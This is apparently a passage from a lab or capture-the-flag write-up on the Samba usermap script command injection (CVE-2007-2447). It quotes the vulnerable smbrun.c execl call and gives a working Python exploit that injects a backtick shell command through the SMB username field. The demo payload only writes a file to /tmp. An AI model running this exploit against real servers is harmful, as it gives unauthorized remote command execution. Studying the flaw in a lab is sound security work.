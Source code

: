 ### `smbrun.c`

Below is the `smbrun` function that will execute `/bin/sh sh -c /etc/samba/script/usermap.sh "Zonifer"`. Because there is no input sanitization we can inject into `execl` and execute any command we want! The payload will look like ```/=`nohup{payload}` ```. 
```
```c
#ifndef __INSURE__
        /* close all other file descriptors, leaving only 0, 1 and 2. 0 and
           2 point to /dev/null from the startup code */
        {
        int fd;
        for (fd=3;fd<256;fd++) close(fd);
        }
#endif

        execl("/bin/sh","sh","-c",cmd,NULL);  

        /* not reached */
        exit(82);
        return 1;
}
```

Doing a quick modification to the exploit code I can write a file to /tmp
```python
#!/usr/bin/python3
import sys
from smb.SMBConnection import SMBConnection

def exploit(rhost, rport):
    payload = 'touch /tmp/zon.txt'
    username = "/=`nohup " + payload + "`"
    conn = SMBConnection(username, "", "", "")
    try:
        conn.connect(rhost, int(rport), timeout=1)
    except:
        print("[+] Payload was sent")

if __name__ == '__main__':
    print("[*] CVE-2007-2447 - Samba usermap script")
    print("[+] Connecting !")
    rhost = sys.argv[1]
    rport = sys.argv[2]
    exploit(rhost, rport)
```

Contents of `/tmp` before
```
ls
5573.jsvc_up
hago
vgauthsvclog.txt.0
vmware-root
```
